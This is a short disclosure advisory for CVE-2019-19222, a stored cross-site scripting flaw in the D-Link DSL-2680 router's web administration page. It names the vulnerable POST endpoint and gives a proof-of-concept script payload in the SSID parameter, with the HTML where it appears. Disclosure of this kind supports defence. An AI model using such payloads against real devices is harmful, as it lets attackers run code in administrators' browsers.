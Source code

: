 ### CVE-2019-19222:  Stored XSS in DSL-2680 Web Administration Interface
**CVE:** CVE-2019-19222    
**Vulnerability Type**: Stored Cross Site Scripting (XSS)     
**Affected Product:** D-Link DSL-2680 - Firmware: EU_1.03    
**Affected Component:** D-Link DSL-2680: Web Administration Interface    
**Attack Type:** Remote    
**Impact:** Arbitrary Javascript code will be executed by the victim browser    

**Description:**    
A Stored XSS issue in the D-Link DSL-2680 web administration interface (Firmware EU_1.03) allows an authenticated attacker to inject arbitrary JavaScript code into the info.html administration page by sending a crafted Forms/wireless_autonetwork_1 POST request.    

**Proof Of Concept:**    
As a proof-of-concept a POST request should be made to the following URI:
```
http://<x.x.x.x>/Forms/wireless_autonetwork_1 providing the following parameters:
```
providing the following parameter:
```
WLan_Finish_SSID=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```
After that the javascript payload will be injected in the following page: `http://<x.x.x.x>/info.html`
```
[...]
<TD class=form_label> Nome rete (SSID)&nbsp;:</td><td><script>alert(1)</script></td></tr><tr>
[...]
```
